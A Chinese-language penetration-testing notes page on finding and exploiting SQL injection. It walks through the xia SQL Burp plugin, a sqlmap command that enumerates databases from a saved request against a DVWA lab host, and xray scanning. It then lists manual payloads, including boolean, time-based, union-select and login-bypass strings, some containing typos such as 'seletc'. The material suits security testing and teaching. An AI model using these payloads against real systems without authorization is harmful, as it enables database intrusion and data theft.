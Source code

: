 注入 SQL 语句, 访问数据库.

若测试未授权的 Web  列出所有数据库即可, 得到授权后再深入测试.

SQL 注入可能存在的位置

```
登录框
检索
页面详情
Cookie
需要调用后端功能的 API
```

## 1 xia SQL

将 HTTP history 中可能存在 SQL 注入的数据包发送到 xia SQL

![将 HTTP history 中可能存在 SQL 注入的数据包发送到 xia SQL](./../../../../images/SQL%20%E6%B3%A8%E5%85%A5/%E5%B0%86%20HTTP%20history%20%E4%B8%AD%E5%8F%AF%E8%83%BD%E5%AD%98%E5%9C%A8%20SQL%20%E6%B3%A8%E5%85%A5%E7%9A%84%E6%95%B0%E6%8D%AE%E5%8C%85%E5%8F%91%E9%80%81%E5%88%B0%20xia%20SQL.png)

xia SQL 会自动检测是否有疑似 SQL 注入漏洞的存在

![xia SQL 会自动检测是否有疑似 SQL 注入的漏洞存在](./../../../../images/SQL%20%E6%B3%A8%E5%85%A5/xia%20SQL%20%E4%BC%9A%E8%87%AA%E5%8A%A8%E6%A3%80%E6%B5%8B%E6%98%AF%E5%90%A6%E6%9C%89%E7%96%91%E4%BC%BC%20SQL%20%E6%B3%A8%E5%85%A5%E7%9A%84%E6%BC%8F%E6%B4%9E%E5%AD%98%E5%9C%A8.png)

## 2 Sqlmap

将疑似存在 SQL 注入漏洞的数据包保存到 `FileName.txt` ,

```shell
┌──(root㉿kali)-[~]
└─# vim FileName.txt
```

```http
GET /dvwa/vulnerabilities/brute/?password=456&Login=Login&username=123 HTTP/1.1
Host: debian.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Referer: http://debian.local/dvwa/vulnerabilities/brute/?username=123&password=123&Login=Login
Cookie: security=low; PHPSESSID=5p1cn67mc1u9bl81502vilbepm
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

 使用 Sqlmap 爆破数据库

```shell
┌──(root㉿kali)-[~]
└─# sqlmap --beep --batch --level 5 --risk 2 --random-agent -r /Path/FileName.txt --dbs
```

## 3 xray

直接使用 Chrome 代理到 xray 被动扫描

```powershell
PS C:\Users\sec> xray webscan --listen 127.0.0.1:7777 --html-output scan.html
```

扫描出 SQL 注入漏洞后使用 ChatGPT 判断报告中 Payload 的类型, 然后在 Google 查找同类型的 Payload 手动注入

## ==未归纳==

## 手动

验证 sql 注入的方法

```
id=1' 
id=1"
> 看是否报错
id=1/1
id=1/0
> 看是否有不同（数据包，响应时间）
```

```
id=1' and '1' ='1
id=1' and 1=1#
id=1' and 1=1-- 
id=1' and 1=1--+
id=1' waitfor delay '0:0:5'--+
id=1' union select 1,@@VERSION,3--+

0%27XOR(if(now()=sysdate()%2Csleep(3)%2C0))XOR%27Z
若存在 SQL 注入则睡眠 3 秒
```

判断 sql 查询类型

```
id=1'||(seletc '')||'
id=1'||(seletc '' from dual)||'
```

在 SQL 查询中，`OR` 运算符具有短路求值的逻辑。这使得在查询中加入恒为真的条件（如 `1=1`）会使得整个 `WHERE` 子句总为真，从而返回所有记录。

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1
```

登录框处的 sql 注入

```
SELECT * FROM users WHERE username = 'administrator'--+' AND password = ''
```

## 扫描器

sqlmap 在可使用 -r test.txt 对数据包进行注入（可测登录时的数据包）

